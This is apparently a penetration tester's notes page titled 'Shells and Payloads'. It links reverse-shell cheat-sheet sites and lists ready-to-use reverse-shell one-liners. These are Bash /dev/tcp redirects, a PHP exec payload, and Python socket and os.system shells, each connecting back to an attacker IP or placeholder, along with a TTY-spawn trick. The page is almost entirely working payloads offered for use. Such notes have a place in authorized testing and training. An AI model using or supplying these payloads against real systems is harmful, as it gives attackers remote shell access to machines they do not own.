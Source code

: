 # Shells and Payloads

## **Introduction**

> There are many different ways to "pop" a reverse shell. Check out the different paylads provided in my notes, but keep in mind that there are many different resources online

***

## **Useful Resources**

* [RevShells.com](https://www.revshells.com/)
* [HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux)
* [PentestMonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [ExploitNotes](https://exploit-notes.hdks.org/exploit/shell/reverse-shell-cheat-sheet/)

***

## **Bash Reverse Shells**

<pre><code>bash -i >&#x26; /dev/tcp/10.0.0.1/8080 0>&#x26;1

<strong>bash -c "bash -i >&#x26; /dev/tcp/10.0.0.1/8080 0>&#x26;1"
</strong>
0&#x3C;&#x26;196;exec 196&#x3C;>/dev/tcp/192.168.1.101/80; sh &#x3C;&#x26;196 >&#x26;196 2>&#x26;196
</code></pre>

***

## **PHP Reverse Shells**

```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"ATTACKING IP"/443 0>&1'");?>

https://github.com/flast101/reverse-shell-cheatsheet/blob/master/php-reverse-shell.php
```

***

## **Python Reverse Shells**

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

__import__("os").system("bash -c 'bash -i >& /dev/tcp/10.0.0.10/666 0>&1'")

Python TTY: python -c 'import pty; pty.spawn("/bin/sh")'
```
